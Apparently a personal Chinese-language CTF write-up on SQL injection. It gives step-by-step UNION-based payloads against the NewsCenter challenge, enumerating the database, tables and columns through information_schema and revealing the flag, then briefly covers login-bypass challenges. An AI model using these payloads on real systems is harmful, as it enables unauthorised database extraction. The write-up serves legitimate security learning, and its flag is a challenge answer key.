 # sql注入

## 攻防世界NewsCenter

访问IP一个新闻站

查看源代码没有新发现

有一个搜索框随便搜索抓包，发现search使用POST传入

![image-20240414150319111](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240414150319111.png)

注入点判断

按前面搜索的操作search就是搜索数据库内的内容，内容没有就没有回显，所以用常规的and 1=1方法是判断不出来注入点的，只有让SQL语句产生错误才行。

传入错误语句回显空白判断search为注入点

联合注入判断回显点

`1'union select 1,2,3#`

发现2,3为回显点

构造注入语句爆表 	数据库名news

`1'union select 1,2,database()#`

构造语句查看表名 	news,secret_table

`1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#`

构造语句查看字段名 	id,fl4g

`1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='secret_table'#`

构造语句查看字段fl4g内容

`1'union select 1,2,group_concat(fl4g) from secret_table#`

拿到flag	QCTF{sq1_inJec7ion_ezzz}

## my-first-sqli

![屏幕截图 2024-04-24 224908](C:\Users\刘春明\Pictures\Screenshots\屏幕截图 2024-04-24 224908.png)

万能账号登录 

![屏幕截图 2024-04-24 224842](C:\Users\刘春明\Pictures\Screenshots\屏幕截图 2024-04-24 224842.png)

## sqli-0x1 Writeup

访问ip发现是一个登录框结合题目判断登录框sql注入

万能账号不通过
